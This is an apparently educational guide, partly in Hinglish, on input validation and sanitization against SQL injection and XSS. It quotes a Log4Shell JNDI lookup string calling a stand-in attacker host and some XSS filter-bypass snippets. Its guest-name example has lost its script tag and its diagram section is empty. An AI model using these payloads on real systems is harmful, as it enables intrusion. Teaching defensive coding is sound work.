

# Input Validation & Sanitization: The First Line of Defense

## 1. Beginner-friendly Hinglish Explanation 🇮🇳
Bhai, **Input Validation** ka matlab hai "Ghalat cheez ko andar hi mat aane do," aur **Sanitization** ka matlab hai "Ghalat cheez ko 'Saaf' karke andar lao." 

Socho tumhare paas ek guest list hai. Guest ne apna naam likha: `Rohan `. 
1. **Validation**: Tumne dekha ki naam mein `<` characters hain, toh tumne bola "Bhai, naam sahi likho" aur entry reject kar di. 
2. **Sanitization**: Tumne ghalat characters ko remove kiya aur entry di: `Rohan alert(1)`. 
Bina iske, tumhari app SQL Injection aur XSS ke liye "Khula Maidan" (Open field) hai.

---

## 2. Deep Technical Explanation
Input handling involves three distinct phases:
- **Validation (Whitelist)**: Checking if the data conforms to a specific format (e.g., Email must have an `@`, Phone must be 10 digits). Always prefer **Whitelist** (Only allow A-Z) over **Blacklist** (Don't allow `<script>`).
- **Sanitization (Cleaning)**: Removing or escaping dangerous characters from the input (e.g., stripping `<` and `>` from a comment).
- **Binding (Type Safety)**: Ensuring that a number is treated as a number in the database, not as a string that could contain code.

---

## 3. Attack Flow Diagrams
**SQL Injection via Unvalidated Input:**

---

## 4. Real-world Attack Examples
- **SQLi in WordPress Plugins**: Thousands of sites were hacked because plugins directly concatenated user-provided search terms into SQL queries without validation.
- **Log4Shell (CVE-2021-44228)**: A massive vulnerability where the `Log4j` library would "Execute" a specific string like `${jndi:ldap://hacker.com/a}` found in any input it logged. Proper input validation would have blocked `${}` patterns.

---

## 5. Defensive Mitigation Strategies
- **Parameterized Queries**: The gold standard for preventing SQLi.
- **Schema-Based Validation**: Use tools like **Zod**, **Joi**, or **Pydantic** to define exactly what your API expects. If the data doesn't match, reject it instantly.
- **Context-Aware Sanitization**: Sanitize differently for HTML, JSON, or CSV. A character that is safe in JSON might be dangerous in an Excel file (CSV Injection).

---

## 6. Failure Cases
- **Blacklisting Bypassing**: A hacker uses `sCrIpT` instead of `script` or uses `alert(String.fromCharCode(88,83,83))` to bypass simple word filters.
- **Trusting Client-Side Validation**: Never rely on "Javascript validation" in the browser. Hackers can just use Postman or cURL to bypass it and send data directly to your API.

---

## 7. Debugging and Investigation Guide
- **Zod Errors**: Detailed logs that tell you exactly which field failed validation and why.
- **Burp Suite Suite Intruder**: Automating the process of sending 1000s of "Ghalat" strings to your API to see which ones cause a server error (500) vs a validation error (400).

---

## 8. Tradeoffs
| Method | Security | Maintenance |
|---|---|---|
| Strict Whitelist | Very High | Hard (Needs updates for new use cases) |
| General Blacklist | Low | Easy |
| Schema Validation| High | Medium |

---

## 9. Security Best Practices
- **Validate at the Edge**: Use API Gateways to reject malformed JSON before it even hits your server CPU.
- **Normalize Input**: Convert everything to UTF-8 and trim whitespace before validating. This prevents "Hiding" code in strange encodings.

---

## 10. Production Hardening Techniques
- **Type-Safe Languages**: Using TypeScript or Rust makes it much harder to accidentally treat a malicious string as a number or a function.
- **Defense in Depth**: Even if validation fails, ensure your database user has minimal permissions so it can't delete tables.

---

## 11. Monitoring and Logging Considerations
- **Log Validation Failures**: A high number of `400 Bad Request` errors on a single endpoint is a sign of a hacker's "Fuzzing" attack.
- **Sanitization Metrics**: Track how often you are "Cleaning" data vs "Rejecting" it.

---

## 12. Common Mistakes
- **Validation without Sanitization**: Rejecting the ghalat data but not cleaning it if you decide to store it anyway.
- **Assuming "It's just an internal app"**: Most big breaches start from a small, unvalidated internal tool.

---

## 13. Compliance Implications
- **PCI-DSS Requirement 6**: States that applications must protect against common vulnerabilities like Injection through proper input validation and secure coding.

---

## 14. Interview Questions
1. Why is "Whitelist validation" better than "Blacklist validation"?
2. What is the difference between validation and sanitization?
3. How does client-side validation compare to server-side validation?

---

## 15. Latest 2026 Security Patterns and Threats
- **LLM-Based Fuzzing**: Attackers using AI to generate inputs that look "Valid" to your filters but trigger hidden logic bugs in your code.
- **Deep-Packet Sanitization**: Network firewalls that can now "Clean" JSON payloads in real-time as they pass through the wire.
- **Auto-Generated Validation Code**: Compilers that automatically inject validation logic based on your database schema, leaving no room for human error.
    
    
    
    
    
    
    
    
    
    
